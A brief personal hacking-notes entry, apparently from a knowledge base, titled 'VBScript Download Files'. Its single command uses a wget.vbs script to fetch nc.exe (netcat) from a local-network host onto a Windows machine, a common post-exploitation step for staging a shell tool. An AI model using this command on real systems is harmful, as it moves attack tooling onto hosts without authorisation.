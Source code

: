 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

# References
- [20221003151230](/zet/20221003151230/) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:
    #assorted

